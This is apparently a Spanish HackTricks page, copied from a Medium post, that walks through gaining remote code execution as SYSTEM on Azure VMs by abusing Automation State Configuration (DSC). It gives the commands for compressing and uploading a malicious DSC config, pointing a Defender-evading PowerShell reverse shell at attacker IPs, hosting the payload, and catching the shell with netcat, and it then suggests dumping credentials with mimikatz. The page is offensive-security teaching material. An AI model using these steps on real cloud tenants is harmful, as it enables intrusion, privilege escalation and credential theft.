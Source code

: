 # Az - State Configuration RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post fue copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparación de la Infraestructura del Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estaré alojando una versión simplificada del payload Nishang Invoke-PowerShellTcp.ps1 desde el servidor remoto "40.84.7.74", que es la caja de Kali. El nombre del payload será "RevPS.ps1". Para evitar que el script de Nishang sea eliminado por Windows Defender por cualquier motivo (quizás prefieras dejar el archivo en el disco), aquí tienes una versión ligera que puedes usar y que evitará a Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Esto será alojado por un simple servidor Python Simple Server en la caja de Kali.

### Paso 1 — Crear Archivos <a href="#89de" id="89de"></a>

Necesitaremos crear otro archivo de configuración DSC. Una plantilla se puede descargar aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este archivo de configuración utilizará la misma función de escritura de archivos que usamos anteriormente. Esta vez, el contenido incluye código para descargar y ejecutar un payload desde nuestro servidor remoto. Además, estamos utilizando una función de tarea programada disponible en el módulo _ComputerManagementDsc_. La función de tarea programada será el papel clave en la ejecución y nos proporcionará privilegios de SYSTEM más adelante.

También descargaremos un script que se utilizará para publicar nuestra configuración en la VM. Se encuentra aquí: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Estos archivos servirán como plantilla. **Necesitarás rellenar los nombres de las variables y los parámetros con lo que estés utilizando**. Esto incluye los nombres de los recursos, las rutas de los archivos y los nombres del servidor/payload externos que estás utilizando. Por favor, consulta los comentarios en el código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Paso 2 — Comprimir Archivo de Configuración <a href="#c2c2" id="c2c2"></a>

Con nuestros dos archivos creados, comprimiremos el archivo **‘reverse\_shell\_config.ps1’** para que pueda ser enviado a la Storage Account
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Paso 3 — Establecer Contexto de Almacenamiento y Subir <a href="#bed9" id="bed9"></a>

Nuevamente, configuraremos el contexto de nuestra Storage Account, lo cual ya he hecho. Ya tengo un contenedor llamado '**azure-pentest**', así que aquí es donde publicaré el mío:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Paso 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

En nuestra Kali box, podemos simplemente usar _wget_ para obtener nuestro payload de PowerShell. El script crudo de reverse-shell se encuentra aquí: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```plaintext
Necesitamos editar el script de reverse-shell añadiendo nuestros parámetros, para que la VM de Windows sepa a dónde conectarse una vez que se ejecute. En mi caso, añado lo siguiente:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Paso 5 — Publicar Archivo de Configuración <a href="#9ad6" id="9ad6"></a>

Ahora ejecutaremos nuestro archivo de configuración. Tengo el mío configurado para ser publicado en el Escritorio para una mejor visualización, sin embargo, se puede publicar prácticamente en cualquier lugar. Después de un par de minutos, veremos que el script de reverse-shell ¡ha sido publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Paso 6 — Alojar Payload y Configurar Listener <a href="#c55f" id="c55f"></a>

Una vez que publiquemos la configuración, podemos iniciar simultáneamente un Python SimpleHTTPServer sobre el puerto 80 para alojar el payload, junto con un listener de netcat para capturar la conexión:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Observamos que la tarea programada se ha ejecutado y nuestro payload fue recuperado y ejecutado en memoria con privilegios de **SYSTEM**.

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusión <a href="#1ec2" id="1ec2"></a>

Esto abre la puerta a muchas posibilidades. Dado que tenemos una shell ejecutándose como **SYSTEM**, podemos volcar credenciales con mimikatz (potencialmente arriesgado dependiendo de la madurez del EDR para recursos en la nube). Si volcas credenciales, hay una buena posibilidad de que estas puedan ser reutilizadas en diferentes recursos. Por último, una gran lección es que, en lugar de limitar esto a una VM, ahora tienes la capacidad de aplicar potencialmente esta configuración a múltiples VMs.

¡Con esto concluimos nuestras aventuras con Azure Automation DSC! Espero que te hayas divertido, aprendido mucho y continúes expandiendo con tu propia creatividad.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
